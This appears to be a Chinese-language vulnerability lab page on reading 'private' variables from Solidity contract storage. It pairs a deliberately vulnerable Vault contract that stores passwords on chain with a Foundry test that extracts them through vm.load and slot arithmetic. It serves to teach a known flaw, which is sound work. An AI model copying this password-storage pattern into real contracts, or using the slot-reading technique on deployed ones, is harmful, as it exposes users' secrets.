

# 私有数据 
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  
**名称：** 私有数据泄露  

**描述：**  
Solidity将合约中定义的变量存储在插槽中。每个插槽最多可容纳32字节或256位。存储在链上的所有数据，无论是公有的还是私有的，都可以读取，因此可以通过预测私有数据所在的内存槽从Vault合约中读取私有数据。  
如果在生产环境中使用Vault合约，恶意行为者可能会采用类似的技术来访问敏感信息，例如用户密码。  

**缓解建议：**  
避免将敏感数据存储在链上。   

**参考**  
https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d  


**Vault合约：**  
```
contract Vault {
    // 插槽 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // 插槽 1
    User[] public users;
    // 插槽 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Privatedata.sol-vvvv  
```
    // testReadprivatedata()的函数声明，这是一个公共函数。
function testReadprivatedata() public {
        
    // 创建带有参数“123456789”的Vault合约的新实例。
    VaultContract = new Vault(123456789);

    // 使用Vault合约地址和位置（0）调用`vm.load`函数
    // “vm.load”函数从指定合约的存储槽中加载数据。
    // 在这里，读取合约的第0个存储槽。在Solidity中，存储布局从插槽0开始。
    bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

    // 记录第一个存储槽的值，将bytes32值转换为uint256。
    console.log(uint256(leet));

    // 再次调用“vm.load”函数，但这一次，它使用来自VaultContract合约的“getArrayLocation”方法来计算特定数组元素的存储槽。
    // 这是因为以太坊中的数组不是存储在连续的块中，而是对每个元素进行哈希处理以找到其位置。
    // 在这里，假设Vault合约中有一个数组，并且您正在尝试访问插槽1中的数据（基于您的参数）
    bytes32 user = vm.load(
        address(VaultContract),
        VaultContract.getArrayLocation(1, 1, 1)
    );
        
    // 记录从合约存储读取的特定数组元素的值，将其从 bytes32转换为uint256。
    console.log(uint256(user));
}
```  
**红色框：** 读取私有数据成功。  
 